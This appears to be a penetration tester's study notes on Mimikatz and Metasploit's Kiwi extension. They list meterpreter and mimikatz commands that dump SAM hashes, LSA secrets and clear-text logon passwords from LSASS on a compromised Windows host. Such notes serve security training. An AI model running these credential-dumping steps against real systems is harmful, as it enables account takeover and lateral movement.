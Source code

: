 # Mimikatz
> Mimikatz is pretty much "THE" tool to use in Windows post-exploitation: Password/Hash extraction from memory.

##IMPORTANT:** Mimikatz will required elevated privileges in order to run correctly.
- LSASS is a system process and so runs with system/admin privileges.

## Contents
- []()
- []()
- []()
- []()
- []()
- []()

## Intro

### [Mimikatz & Kiwi](https://github.com/gentilkiwi/mimikatz#mimikatz)
- Mimikatz is a Windows post-exploitation tool written by Benjamin Delpy (@gentilkiwi). It allows for the extraction of clear-text passwords, hashes, and Kerberos tickets from memory.
- The SAM (Security Account Manager) database is a database file on Windows systems that stores hashed user passwords.
- Mimikatz can be used to extract hashes from the lsass.exe process memory where hashes are cached.
  - `LSA` : Local Security Authority
  - `LSASS` : Local Security Authority Subsystem Service
- We can utilize the pre-compiled mimikatz executable.
  - This means you have to upload the executable to the target machine and run it from there.
- Or if we have access to a meterpreter session on a Windows target, we can utilize the built-in meterpreter extenstion called Kiwi.
  - With Kiwi we don't have to upload files to the target machine.
  - We just run it from metasploit (no footprint on the target hdd).
- Resources: [Mimikatz Wiki](https://github.com/gentilkiwi/mimikatz/wiki) | [MetaSploit Docs](https://www.offsec.com/metasploit-unleashed/mimikatz/)

### Why are hashes important?
- You may not be able to crack them and get the plain-text passwords.
- You can use them in [pass-the-hash](/07_Post-Exploitation/6_Dump_n_Crack/win_dump_n_crack.md#pass-the-hash) attacks.

----
## Techniques & Tools

### Scenario & Set-Up
- You compromised a Windows target with MetaSploit and have a meterpreter session.
- Do some basic initial enumeration:
```
> sysinfo
> pgrep lsass
  # Note the pid
> migrate [lsass process number]
  # Since we are going to be interacting with the LSASS process, migrate to that specific process
  # This gives us a 64-bit meterpreter session on the target 64-bit architecture (more stable)
  # This gives us more stability when interacting with the LSASS process to dump hashes.
> getuid
  # if we have access as Administrator, no privesc needed
> getprivs
  # confirm we have admin privs
```

### Meterpreter Built-In Extension: Kiwi
> Assuming the same scenario: you have compromised a Windows target with MetaSploit and currently have access via a meterpreter session. Because we are dinkin' around with the LSA, we should migrate our meterpreter session to lsass.exe. That will be more stable.
- Kiwi allows us to dynamically execute Mimikatz on the target system without touching the disk (uploading mimiktaz.exe to the target will save it to the hard drive).
```
> load kiwi
> help              # at the bottom of the help file you will get the kiwi module help
> creds_all         # retrieve all credentials
> lsa_dump_sam      # dump the sam database contents
> lsa_dump_secrets  # dump the lsa secrets (unparsed)
```
- This will give you basically the same results as `hashdump` above (copy into a text file: hashes.txt).
- `load kiwi` : Should get visible feedback of successful load
- `creds_all` : will try to get everything; might give you the NTLM has of the administrator account
- `lsa_dump_sam` : This dumps the cached contents of the SAM db
  - REMEMBER: The SAM db is encrypted with a "syskey" and mimikatz/kiwi just gave you that key with this dump.
- `lsa_dump_secrets` : In SOME cases this MIGHT provide you with clear text credentials.
- If you are working within an AD (Active Directory) environment, you can run the kerberos dumps and/or create a golden ticket.
- Handy Kiwil command: `password_change`
  - This is NOT something you'd want to do in an enterprise environment pentest (b/c you'll change an actual account password and/or hash).

### Mimikatz on the Target
> Same scenario... If you wanted, you could upload the mimikatz Windows executable to the target (onto the target's hard drive).

#### Upload mimikatz.exe
- With your meterpreter session, navigate to the root of the target, create a Temp subdir for your files.
```
> upload /usr/share/windows-resources/mimikatz/x64/mimikatz.exe
  # Kali comes with various Windows executables, and mimikatz.exe is one of them.
> shell
  # gets you a cmd on the target
```

#### Run mimikatz.exe on the Target
- In the cmd shell on the target...
```
dir    # should see mimikatz.exe in your Temp dir
mimikatz.exe              # start it up... you get the mikikatz environment and prompt
privilege::debug          # check your privs
                          # if you get "Privilege | 20 | OK" you have sufficient privs to execute
lsadump::sam              # should give you the cache dump: syskey, samkey, hashes
lsadump::secrets          # same results as with kiwi in msf
sekurlsa::logonpasswords  # IF there are clear-text pwds, you'll see them; else Password: (null).
```
- `sekurlsa::logonpasswords` : Some Windows systems are configured to store users' logon passwords in clear text. Mimikatz can find these.




